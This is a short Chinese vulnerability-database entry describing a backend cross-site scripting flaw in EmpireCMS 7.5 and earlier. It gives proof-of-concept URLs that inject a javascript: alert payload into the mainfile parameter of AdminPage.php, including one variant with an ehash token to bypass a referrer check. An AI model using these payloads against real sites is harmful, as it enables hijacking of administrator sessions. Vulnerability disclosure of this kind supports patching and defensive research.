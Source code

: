 ```yaml
---
title: 'EmpireCMS V7.5后台xss漏洞'
date: Wed, 09 Sep 2020 14:03:12 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EmpireCMS <=7.5

### 漏洞POC

需要有后台权限

```
http://********/e/admin/openpage/AdminPage.php?mainfile=javascript:alert(/xss/)
```

若提示非法来源加入参数hash参数，例：ehash\_gxCQz=zERR2KY6NAMicC0c5OYv,如下 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/15996652611.png)

```
http://********/e/admin/openpage/AdminPage.php?mainfile=javascript:alert(/xss/)&ehash_gxCQz=zERR2KY6NAMicC50Yv
```